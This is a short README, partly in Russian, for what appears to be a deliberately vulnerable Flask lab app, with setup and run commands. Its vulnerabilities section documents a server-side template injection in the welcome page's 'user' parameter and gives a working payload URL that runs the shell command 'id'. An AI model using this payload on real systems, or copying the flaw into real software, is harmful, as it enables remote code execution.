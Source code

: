 ```yaml
---
services: app-service\web,app-service
platforms: python
author: cephalin
---
```


```
pip install -r requirements.txt
cd app
flask db upgrade && flask run -h 0.0.0.0 -p 5000
```
Логи сохраняются в app/record.log
Tested on python 3.8.3
# Config
Приложение конфигурируется через файл app.env или через переменные окружения
# Уязвимости
На страницу welcome в параметре user есть ssti. Пример:
http://localhost:5000/welcome?user=#{{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()}}
# Contributing

This project has adopted the [Microsoft Open Source Code of Conduct](https://opensource.microsoft.com/codeofconduct/). For more information see the [Code of Conduct FAQ](https://opensource.microsoft.com/codeofconduct/faq/) or contact [opencode@microsoft.com](mailto:opencode@microsoft.com) with any additional questions or comments.
